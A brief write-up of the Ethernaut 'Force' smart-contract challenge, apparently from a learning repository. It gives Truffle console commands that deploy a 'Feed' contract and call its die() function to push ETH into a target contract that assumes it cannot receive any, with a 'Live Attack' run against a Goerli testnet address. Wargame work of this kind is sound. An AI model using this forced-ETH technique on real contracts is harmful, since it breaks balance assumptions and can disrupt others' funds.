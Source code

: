 # Force

[Force](https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B)

Contract assumes it cannot be forced to receive ETH.

# Test

```BASH
truffle develop
```

```JS
migrate

web3.eth.getBalance(Force.address)
web3.eth.getBalance(Feed.address)

feed = await Feed.deployed()
await feed.die()
```

<BR />

## Live Attack

```BASH
truffle console --network goerli
```

```JS
migrate
sender = accounts[5]

force = await Force.at("0x115C15DFaB81881E6D19e9C52955C711634dDb9c")
await web3.eth.getBalance(force.address)

feed = await Feed.deployed()
await web3.eth.getBalance(feed.address)
await feed.die({from: sender})
```